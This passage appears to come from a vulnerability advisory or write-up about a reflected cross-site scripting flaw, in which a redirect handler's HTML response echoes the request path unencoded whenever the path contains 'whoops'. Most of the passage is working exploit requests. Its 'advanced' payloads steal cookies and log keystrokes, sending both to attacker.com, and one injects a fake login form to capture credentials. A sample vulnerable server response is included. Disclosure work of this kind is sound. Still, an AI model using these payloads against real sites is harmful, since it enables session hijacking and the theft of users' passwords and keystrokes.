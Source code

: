 The `locationUrl` is directly concatenated into the HTML response without HTML encoding, creating the XSS vulnerability.

### Trigger Conditions

1. Client initiates HTTP request (not HTTPS)
2. Request path contains the string "whoops"
3. Server processes the request and attempts HTTPS redirect

## Vulnerability Exploitation

### Attack Payloads

**Basic XSS Payload**:

```bash
GET /whoops"><script>alert('XSS')</script><!-- HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0...
```

**Advanced Attack Payloads**:

```bash
# Cookie Theft
GET /whoops"><script>document.location='http://attacker.com/steal.php?c='+document.cookie</script><!-- HTTP/1.1

# Keylogger
GET /whoops"><script>document.onkeypress=function(e){new Image().src='http://attacker.com/keylog.php?k='+String.fromCharCode(e.which)}</script><!-- HTTP/1.1

# Page Hijacking
GET /whoops"><script>document.body.innerHTML='<h1>Site Under Maintenance</h1><form>Username:<input><br>Password:<input><br><button onclick="steal()">Login</button></form>'</script><!-- HTTP/1.1
```

### Server Response Example

**Request**:

```http
GET /whoops"><script>alert('XSS')</script><!-- HTTP/1.1
Host: example.com
```

**Response**:

```http
HTTP/1.1 303 See Other
Content-Type: text/html; charset=UTF-8
Location: https://example.com:443/whoops"><script>alert('XSS')</script><!--

<p>See <a href="https://example.com:443/whoops"><script>alert('XSS')</script><!--">this link</a></p>
```
